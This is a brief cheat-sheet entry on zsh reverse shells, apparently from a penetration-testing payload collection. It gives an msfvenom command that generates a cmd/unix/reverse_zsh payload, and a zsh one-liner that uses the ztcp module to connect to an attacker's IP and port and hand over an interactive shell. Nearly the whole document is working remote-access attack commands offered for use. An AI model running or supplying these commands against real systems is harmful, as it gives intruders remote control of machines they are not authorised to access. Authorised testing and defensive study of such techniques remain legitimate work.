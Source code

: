 # Zsh

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_zsh lhost=<IP> lport=<PORT>
```

## 02 - One-liners

```
$ zsh -c 'zmodload zsh/net/tcp && ztcp <attacker_IP> <attacker_PORT> && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```
